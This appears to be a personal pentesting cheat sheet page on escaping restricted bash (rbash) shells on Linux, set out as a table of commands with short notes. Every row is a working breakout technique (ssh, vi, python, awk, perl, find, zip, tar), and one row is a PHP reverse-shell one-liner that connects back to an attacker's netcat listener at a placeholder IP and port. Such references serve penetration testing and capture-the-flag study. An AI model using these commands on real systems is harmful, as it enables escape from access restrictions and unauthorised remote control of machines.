 # Linux PrivEsc CheatSheets
[Home](../index.md) | [CheatSheets](../cheatsheets.md) | [About](../about.md)

* [RBash Breakout](LinuxPrivEsc/RestrictedShells.md)

| Command 	| Notes 	|
|---	|---	|
| $SHELL 	| Determine if we are in an rbash shell (/bin/rbash) 	|
| ssh user@ip -t "bash --noprofile" 	| Bypass rbash if we can use SSH along with a known username and password 	|
| vi<br>:set shell=/bin/bash<br>:shell 	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br> 	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");' 	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");' 	| Use Python if available on the target system to escape rbash and spawn a generic bash shell. 	|
| awk 'BEGIN {system("/bin/bash")}' 	| Escape rbash using AWK 	|
| perl -e 'system("/bin/bash");' 	| Use PERL to escape rbash and spawn a bash shell 	|
| find / -name test -exec /bin/sh or /bin/bash \; 	| Use the find command to execute the /bin/bash binary 	|
| cp /bin/bash . 	| Copy the /bin/bash binary to your current directory, this only works if / is allowed. 	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash" 	| Use the zip command to spawn a bash shell, create a zip file first using touch.  	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash 	| Use the tar command to execute the bash binary upon archive creation. 	|
